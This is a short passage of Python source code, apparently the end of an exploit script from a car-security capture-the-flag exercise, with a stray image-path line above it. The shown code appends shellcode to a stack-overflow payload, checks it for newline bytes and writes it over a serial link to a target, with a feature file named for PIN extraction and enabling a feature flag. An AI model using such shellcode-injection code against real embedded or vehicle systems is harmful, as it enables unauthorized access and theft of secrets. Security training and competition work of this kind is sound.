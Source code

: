         # now we can write the shellcode to the stack
        payload += shellcode
    
        # make sure there are no newlines or carriage returns in the payload
        if payload.find(b'\r') != -1 or payload.find(b'\n') != -1:
            print('ERROR: payload has newline')
            return
    
        slow_write(ser, payload + b'\n')
    
    
    if __name__ == '__main__':
        feature_file = './car5_pin_extraction_and_enable_feature_flag/car_5_feature_1'
        feature_id = 5
    
        main(feature_file, feature_id)

